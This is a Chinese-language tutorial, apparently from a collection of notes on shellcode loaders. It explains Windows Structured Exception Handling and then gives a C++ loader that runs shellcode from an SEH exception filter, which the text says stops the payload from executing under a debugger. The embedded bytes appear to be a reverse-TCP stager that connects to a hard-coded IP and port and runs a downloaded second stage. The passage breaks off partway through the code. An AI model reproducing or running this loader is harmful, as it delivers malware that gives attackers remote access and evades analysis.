 SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码

SEH的工作原理是在程序中建立一个异常处理函数链。每个异常处理函数都负责处理特定的异常。当程序运行时遇到异常，操作系统会沿着异常处理函数链寻找适当的处理函数。如果找到合适的异常处理函数，系统将调用该函数并处理异常。如果没有找到合适的处理函数，系统将终止程序

![img](shellcode加载器/assets%2F-M3GuIlaAXU8NbJTCRei%2F-M7u7TrzN0Wym0qmjjSg%2F-M7u9bFpgHXC3vjN9d5g%2Fimage.png)



在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常	

SEH的一个重要特点是它与语言无关，因此可以在C、C++等语言中使用。然而，C++提供了另一种异常处理机制：C++异常处理（`try`、`catch`和`throw`关键字）。C++异常处理机制更符合C++语言的面向对象特性，通常在C++程序中更为常用。然而，在某些情况下，SEH仍然具有独特的优势，例如在处理特定的Windows异常或与C代码交互时



## 实现代码

这种方式加载shellcode的一个好处就是在调试器环境下和正常运行环境下表现不同。当程序在调试器中运行时，调试器会接管异常处理，从而使得程序在除零异常处停止，而不会执行shellcode。这使得恶意代码的执行在调试环境下被阻止，为分析和调试带来困难

```cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker, "/section:.data,RWE")

// 存储要执行的shellcode
char shellcode[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

int a = 1;
int b = 0;

// 定义异常处理函数
int ExceptFilter()
{	
	b = 1; // 修改b的值为1，以防止无限循环的异常处理
	((void(*)(void)) & shellcode)(); // 强制转换shellcode的类型，并执行
	return EXCEPTION_CONTINUE_EXECUTION; // 在处理完异常后，程序继续执行异常发生位置的代码
	/*
```